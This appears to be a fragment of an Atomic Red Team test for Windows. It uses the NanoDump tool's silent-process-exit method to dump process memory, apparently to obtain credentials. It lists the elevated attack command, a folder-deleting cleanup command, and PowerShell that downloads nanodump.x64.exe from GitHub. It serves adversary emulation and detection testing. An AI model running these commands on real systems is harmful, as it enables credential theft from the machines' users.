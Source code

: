 Upon successful execution, you should find the dump file in directory of your choice or "%temp%\SilentProcessExit" by default.

**Supported Platforms:** Windows

**auto_generated_guid:** eb5adf16-b601-4926-bca7-dad22adffb37

#### Inputs:

| Name          | Description                                       | Type | Default Value                |
| ------------- | ------------------------------------------------- | ---- | ---------------------------- |
| output_folder | Folder Path where resulting dump should be placed | path | %temp%&#92;SilentProcessExit |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe --silent-process-exit "#{output_folder}"
```

#### Cleanup Commands:

```cmd
rmdir "#{output_folder}" /s /q >nul 2> nul
```

#### Dependencies: Run with `powershell`!

##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)

##### Check Prereq Commands:

```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```

<br/>
